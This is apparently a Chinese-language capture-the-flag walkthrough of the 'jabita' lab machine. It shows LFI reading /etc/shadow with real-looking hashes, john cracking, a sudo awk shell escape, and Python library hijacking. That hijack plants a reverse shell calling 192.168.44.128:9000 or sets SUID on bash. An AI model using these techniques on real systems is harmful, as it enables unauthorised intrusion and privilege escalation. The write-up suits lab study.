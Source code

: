 
|   |   |   |
|---|---|---|
|jabita|easy|文件包含利用、shadow爆破、sudo-awk 提权、python库劫持提权、python反弹shell|

# 主机发现
```C
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.147 
```
22,  80

# 目录扫描
```c
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.44.147 -x php,html.txt.png -e
```

```c
http://192.168.44.147/building   
在这个页面随便点个home
发现这个页面可能存在文件包含http://192.168.44.147/building/index.php?page=home.php
初次尝试得到结果
http://192.168.44.147/building/index.php?page=/etc/shadow

jack:$6$xyz$FU1GrBztUeX8krU/94RECrFbyaXNqU8VMUh3YThGCAGhlPqYCQryXBln3q2J2vggsYcTrvuDPTGsPJEpn/7U.0:19236:0:99999:7::: 
jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7::: 
```
# john爆破

爆破
```c
kali㉿kali)-[~/桌面/OSCP]
└─$ john -w=../rockyou.txt hash_jabita
账号：jack
密码：joaninha
```


# 提权

```c
jack@jabita:~$ sudo -l
    (jaba : jaba) NOPASSWD: /usr/bin/awk 
```

然后去这个网站搜索相关命令getshell，，，awk
[GTFOBins](https://gtfobins.github.io/)

```c
sudo awk 'BEGIN {system("/bin/sh")}'
```

```c
jack@jabita:~$ sudo -u jaba  /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ id
uid=1002(jaba) gid=1002(jaba) groups=1002(jaba)

$ script /dev/null -c bash
jaba@jabita:/home/jack$ sudo -l
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```
查看这个文件为root 权限，该脚本导入了wild 模块，执行后调用first()方法，输出一个hello。
我们搜索该模块，查看模块内容如下
```c
jaba@jabita:/home/jack$ cat /usr/bin/clean.py 
import wild

wild.first()
jaba@jabita:/home/jack$ ls -all /usr/bin/clean.py 
-rw-r--r-- 1 root root 26 Sep  5  2022 /usr/bin/clean.py
jaba@jabita:/home/jack$ /usr/bin/python3 /usr/bin/clean.py
Hello
jaba@jabita:/home/jack$ find / -type f -name "wild.py" 2>/dev/null
/usr/lib/python3.10/wild.py
jaba@jabita:/home/jack$ cat /usr/lib/python3.10/wild.py
def first():
        print("Hello")
jaba@jabita:/home/jack$ ls -all /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```
## python库劫持
我们对改文件具有修改的权限，因此可以尝试python库劫持进行提取
那么接下来我们可以使用python反弹一个shell,代码如下
```c
import os
def first():
	os.system("python3 -c \"import       os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.44.128',9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"")
```

```c
jaba@jabita:/home/jack$ sudo -u root /usr/bin/python3 /usr/bin/clean.py
```

实战中，如果机器不出网，我们可以修改该脚本的内容，让它可以使用 SUID 执行 bash。或者直接创建一个root权限的账号。

```c
import os
def first():	
	os.system("chmod u+s /bin/bash")
```

```c
find / -perm -u=s -type f 2>/dev/null


jaba@jabita:/home/jack$ bash -p
bash-5.1# whoami
root
```

```
bash-5.1# cat user.txt 
2e0942f09699435811c1be613cbc7a39
bash-5.1# cat root.txt 
f4bb4cce1d4ed06fc77ad84ccf70d3fe
```